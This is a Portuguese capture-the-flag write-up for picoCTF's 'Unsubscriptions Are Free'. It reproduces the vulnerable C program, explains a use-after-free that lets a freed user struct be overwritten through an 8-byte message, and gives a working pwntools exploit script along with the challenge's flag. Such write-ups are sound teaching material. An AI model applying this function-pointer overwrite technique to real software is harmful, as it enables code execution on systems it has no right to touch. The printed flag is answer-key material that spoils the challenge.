

# Unsubscriptions are free - PWN

# Descrição do problema

O nosso desafio foi escolhido na plataforma PicoCTF e tem como título o nome **Unsubscriptions Are Free**.

Ao abrir o site do exercício https://play.picoctf.org/practice/challenge/187?category=6&page=1, encontramos a seguinte descrição:

"Check out my new video-game and spaghetti-eating streaming channel on Twixer! program and get a flag. source nc mercury.picoctf.net 4593"

**Conteúdo do problema**

Além da descrição mostrada acima, temos uma dica para a resolução do problema é nos direciona para o link http://homes.sice.indiana.edu/yh33/Teaching/I433-2016/lec13-HeapAttacks.pdf.

Com isso, podemos ter em mente que o problema a ser solucionado tem relação com ataques na memória heap.

Além da dica, temos os arquivos: vuln e vuln.c respectivamente.

- vuln: <br>
        Arquivo executável para podermos rodar diretamente na nossa máquina.
    <br><br>
- vuln.c
    <br> Arquivo em linguagem C que contém todos os dados e funções usadas.


# Resolução do problema

Quando pegamos para solucionar o problema descrito nos deparamos com aquele arquivo vuln.c e passamos a observar a sua função e funções executadas:

Abaixo temos o código do arquivo vuln.c:
```c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>

#define FLAG_BUFFER 200
#define LINE_BUFFER_SIZE 20


typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;

char choice;
cmd *user;

void hahaexploitgobrrr(){
 	char buf[FLAG_BUFFER];
 	FILE *f = fopen("flag.txt","r");
 	fgets(buf,FLAG_BUFFER,f);
 	fprintf(stdout,"%s\n",buf);
 	fflush(stdout);
}

char * getsline(void) {
	getchar();
	char * line = malloc(100), * linep = line;
	size_t lenmax = 100, len = lenmax;
	int c;
	if(line == NULL)
		return NULL;
	for(;;) {
		c = fgetc(stdin);
		if(c == EOF)
			break;
		if(--len == 0) {
			len = lenmax;
			char * linen = realloc(linep, lenmax *= 2);

			if(linen == NULL) {
				free(linep);
				return NULL;
			}
			line = linen + (line - linep);
			linep = linen;
		}

		if((*line++ = c) == '\n')
			break;
	}
	*line = '\0';
	return linep;
}

void doProcess(cmd* obj) {
	(*obj->whatToDo)();
}

void s(){
 	printf("OOP! Memory leak...%p\n",hahaexploitgobrrr);
 	puts("Thanks for subsribing! I really recommend becoming a premium member!");
}

void p(){
  	puts("Membership pending... (There's also a super-subscription you can also get for twice the price!)");
}

void m(){
	puts("Account created.");
}

void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}

void i(){
	char response;
  	puts("You're leaving already(Y/N)?");
	scanf(" %c", &response);
	if(toupper(response)=='Y'){
		puts("Bye!");
		free(user);
	}else{
		puts("Ok. Get premium membership please!");
	}
}

void printMenu(){
 	puts("Welcome to my stream! ^W^");
 	puts("==========================");
 	puts("(S)ubscribe to my channel");
 	puts("(I)nquire about account deletion");
 	puts("(M)ake an Twixer account");
 	puts("(P)ay for premium membership");
	puts("(l)eave a message(with or without logging in)");
	puts("(e)xit");
}

void processInput(){
  scanf(" %c", &choice);
  choice = toupper(choice);
  switch(choice){
	case 'S':
	if(user){
 		user->whatToDo = (void*)s;
	}else{
		puts("Not logged in!");
	}
	break;
	case 'P':
	user->whatToDo = (void*)p;
	break;
	case 'I':
 	user->whatToDo = (void*)i;
	break;
	case 'M':
 	user->whatToDo = (void*)m;
	puts("===========================");
	puts("Registration: Welcome to Twixer!");
	puts("Enter your username: ");
	user->username = getsline();
	break;
   case 'L':
	leaveMessage();
	break;
	case 'E':
	exit(0);
	default:
	puts("Invalid option!");
	exit(1);
	  break;
  }
}

int main(){
	setbuf(stdout, NULL);
	user = (cmd *)malloc(sizeof(user));
	while(1){
		printMenu();
		processInput();
		//if(user){
			doProcess(user);
		//}
	}
	return 0;
}
```
<br>

## **Sobre o código**

Resumindo o código contém funções para criação e remoção de conta identificada por texto e adição de uma mensagem qualquer. Tudo é feito navegando por um menu mostrado no terminal e a ordem das execuções é importante para a resolução do problema.

A parte inicial que precisamos estar atento é como as informações são organizadas no programa: Isso é feito por um struct chamado cmd que vai conter uma referência para a função a ser executada (whatToDo) e também o nome do usuário (username)

```c
typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;

char choice;
cmd *user;
```

Observando esse código, temos de cara a função hahaexploitgobrrr que serve para imprimir a flag no terminal
```c
void hahaexploitgobrrr(){
 	char buf[FLAG_BUFFER];
 	FILE *f = fopen("flag.txt","r");
 	fgets(buf,FLAG_BUFFER,f);
 	fprintf(stdout,"%s\n",buf);
 	fflush(stdout);
}
```

Há também a função s() que mostra no terminal o endereço da função hahaexploitgobrrr (Isso vai ser interessante pois, sabendo o endereço da função hahaexploitgobrrr poderemos tentar encontrar uma forma que executar ela por meio do seu endereço direto)
```c
void s(){
 	printf("OOP! Memory leak...%p\n",hahaexploitgobrrr);
 	puts("Thanks for subsribing! I really recommend becoming a premium member!");
}
```

Outra função interessante é a leaveMessage, que aloca um espaço de 8 bytes no heap e coloca um texto recebido do usuário pelo terminal.

```c
void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}
```

A parte do input simplesmente mapeia as opções mostradas no menu para as funções que irão executar o código equivalente:

```c
void processInput(){
  scanf(" %c", &choice);
  choice = toupper(choice);
  switch(choice){
	case 'S':
	if(user){
 		user->whatToDo = (void*)s;
	}else{
		puts("Not logged in!");
	}
	break;
	case 'P':
	user->whatToDo = (void*)p;
	break;
	case 'I':
 	user->whatToDo = (void*)i;
	break;
	case 'M':
 	user->whatToDo = (void*)m;
	puts("===========================");
	puts("Registration: Welcome to Twixer!");
	puts("Enter your username: ");
	user->username = getsline();
	break;
   case 'L':
	leaveMessage();
	break;
	case 'E':
	exit(0);
	default:
	puts("Invalid option!");
	exit(1);
	  break;
  }
}
```

Por fim, tudo é executado dentro de um while, que vai manipular as opções do menu selecionadas pelo usuário e executar a função correta:

```c
int main(){
	setbuf(stdout, NULL);
	user = (cmd *)malloc(sizeof(user));
	while(1){
		printMenu();
		processInput();
		//if(user){
			doProcess(user);
		//}
	}
	return 0;
}
```

Já vendo todas as etapas desse programa tivemos a seguinte ideia: Como estamos pegando a entrada do usuário e em seguida executando a função correta mantida na parte whatToDo do struct, podemos tentar **colocar o endereço da função hahaexploitgobrrr() (vazado ao executar s()) dentro desse whatToDo** para ser executado no while e assim conseguir **mostrar a flag**.

## **Executando o código**

Ao conectar remotamente com o servidor, através do comando ```nc mercury.picoctf.net 4593``` temos visível o menu abaixo:

 

Que contém as opções:
- S: Mostra endereço da função hahaexploitgobrrr que imprime a flag
- I: Deleta uma conta (Apenas realiza free para os dados apontados pelo ponteiro do *cmd)
- M: Cria um conta
- P: Paga por assinatura premium
- l: Deixa uma mensagem
- e: Sai do programa

### Resolvendo o problema

Sabendo que a opção "M" cria uma nova conta para o nosso usuário colocando um username e atribuindo a função de execução whatToDo para ser m():

```c
case 'M':
 	user->whatToDo = (void*)m;
	puts("===========================");
	puts("Registration: Welcome to Twixer!");
	puts("Enter your username: ");
	user->username = getsline();
```

E que, a opção "l" deixa uma mensagem gravada no heap:

```c
// Parte do código de manipulação do menu
...
case 'L':
    leaveMessage();
    break;
...

// Função de gravação da mensagem
void leaveMessage(){
    puts("I only read premium member messages but you can ");
    puts("try anyways:");
    char* msg = (char*)malloc(8);
    read(0, msg, 8);
}
```

Sabendo que o sistema onde estamos executando o código remoto contém 32 bits, então o nosso struct mostrado abaixo vai conter 8 bytes no total:
- uintptr_t (Dado inteiro sem sinal): 4 bytes
- char *: Em sistema de 32 bits ponteiros possuem 4 bytes para conseguir representar qualquer endereço existente possível

```c
typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;
```

Sendo assim, ao criar uma conta iremos colocar os dados de whatToDo e username no heap, ocupando 8 bytes.
Entretanto, ao remover uma conta estaremos apenas indicando para o sistema que o espaço de 8 bytes anteriormente utilizado agora está livre para ser utilizado novamente, mantendo o ponteiro ainda apontando para aquele espaço de memória.

Somado a isso, quando executamos a função de armazenamento de mensagem estamos realizando um malloc com tamanho de 8 bytes e a localização desse novo mapeamento no heap será na mesma posição dos dados do último free realizado (Ou seja, a mensagem será colocada na mesma posição que estavam os dados do struct, já que ambos possuem 8 bytes). Temos aqui então a falha **USE AFTER FREE**.

O que vamos fazer é colocar nessa mensagem (Mais especificamente nos 4 primeiros bytes) o endereço da função ```hahaexploitgobrrr()``` para que, ao executar o ```doProcess(user)```, o ponteiro whatToDo agora aponte para a função hahaexploitgobrrr(), exibindo a flag no terminal.

### Script em python para obter a flag passo a passo

Passos:
- Obter endereço da função hahaexploitgobrrr() pela opção "S" do menu
- Criar conta do usuário
- Deletar conta do usuário
- Inserir mensagem contendo os 4 primeiros bytes com o endereço de hahaexploitgobrrr()


Código:
```python
from pwn import context, log, p32, remote, sys

context.binary = 'vuln'


def get_process():
    if len(sys.argv) == 1:
        return context.binary.process()

    host, port = sys.argv[1], sys.argv[2]
    return remote(host, int(port))


def main():
    p = get_process()

    # Pega o endereço da função hahaexploitgobrrr como inteiro
    p.sendlineafter(b'(e)xit\n', b'S')
    p.recvuntil(b'OOP! Memory leak...')
    leak = int(p.recvline().decode().strip(), 16)

    # Cria uma conta colocando um nome qualquer para o usuário
    p.sendlineafter(b'(e)xit\n', b'M')
    p.sendlineafter(b'Enter your username: \n', b'AAA')  

    # Solicita remoção da conta
    p.sendlineafter(b'(e)xit\n', b'I')
    # Confirma remoção da conta
    p.sendlineafter(b'(Y/N)?\n', b'Y')

    # Grava uma mensagem
    p.sendlineafter(b'(e)xit\n', b'L')
    # A nossa mensagem vai ser nada mais do que o endereço da função hahaexploitgobrrr (4 bytes) no formato little endian.
    p.sendlineafter(b'try anyways:\n', p32(leak))

    # Após isso o programa remoto vai executar o doProcess(user) e rodar a função apontada pelo ponteiro whatToDo, que agora aponta para hahaexploitgobrrr, mostrando a flag no terminal
    flag = p.recvline().decode().strip()

    p.close()

    log.success(f'Flag: {flag}')


if __name__ == '__main__':
    main()

```
Salvando o programa como solve.py e rodando ele com o comando ```python3 solve.py mercury.picoctf.net 4593```, obtemos a flag ```picoCTF{d0ubl3_j30p4rdy_ba307b82}``` no terminal:



### Agora sim o desafio foi concluído!


